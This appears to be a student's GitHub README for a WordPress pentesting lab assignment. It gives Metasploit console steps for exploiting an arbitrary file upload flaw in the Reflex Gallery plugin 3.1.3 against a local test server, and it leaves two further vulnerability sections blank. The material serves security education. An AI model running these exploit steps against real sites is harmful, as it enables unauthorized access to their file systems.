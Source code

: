 # Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. Arbitrary File Upload
  - [x] Summary: Using Metasploit, allows the user to gain access to the file system.
    - Vulnerability types: Arbitrary File Upload
    - Tested in version: 3.1.3 (Reflex Gallery)
    - Fixed in version: 3.1.4 (Reflex Gallery)
  - [x] GIF Walkthrough: <img src="arbitrary_file.gif">
  - [x] Steps to recreate: 
	1. ```server postgresql start```
	2. ```msfdb init```
	3. ```msfconsole```
	4. At this point, you will be inside of the Metasploit console
	5. ```db_status``` (If it reads Connected to msf, you're good to go)
	6. ```search Reflex```
	7. ```use 0```
	8. ```set RHOST 127.0.0.1```
	9. ```set RPORT 8080```
	10. ```set LHOST 192.168.65.3``` (Different in some cases, it's eth0 under ifconfig)
	11. ```exploit``` (this will gain you access to the file system to edit php files)
	
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: -

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with Screen To GIF

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.